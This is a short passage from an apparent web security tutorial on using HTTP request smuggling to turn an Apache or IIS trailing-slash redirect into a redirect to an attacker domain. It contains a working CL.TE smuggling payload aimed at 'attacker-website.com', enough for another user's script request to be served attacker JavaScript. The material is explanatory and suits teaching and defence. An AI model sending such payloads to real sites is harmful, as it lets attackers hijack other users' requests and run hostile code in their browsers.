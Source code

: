 Many apps redirect from one URL to another and place the hostname from HOST in the request into the redirect URL. 

This is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder but with the trailing slash:

```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Smuggling can be used here to redirect users to an external domain:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

So, the next request will be:

```http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

In this case the user was requesting a JavaScript file that was imported by a page on the web site, and the attacker now can fully compromise the victim user by returning their own JS in response.

